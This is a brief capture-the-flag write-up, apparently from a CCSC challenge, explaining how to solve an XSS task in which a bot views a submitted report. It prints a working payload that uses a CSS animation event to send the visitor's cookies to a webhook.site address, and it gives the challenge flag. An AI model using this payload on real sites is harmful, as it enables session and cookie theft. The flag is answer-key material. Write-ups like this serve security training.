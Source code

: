 The attacker intuitively understands that the objective is to perform XSS on the report submitted. By playing around with potential inputs and seeing what is allowed, they will find that the following payload works:

<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="window.location='https://webhook.site/c70ace03-220a-41ca-bbb2-2c4bd0bdfccf?c=' + document.cookie;"></xss>

This causes the agent in the site to visit the link, and disclose the flag in the cookie.

flag = "CCSC{1f_1t_acc3pt5_1NpuT_1t_W!LL_b3_XSSed}"
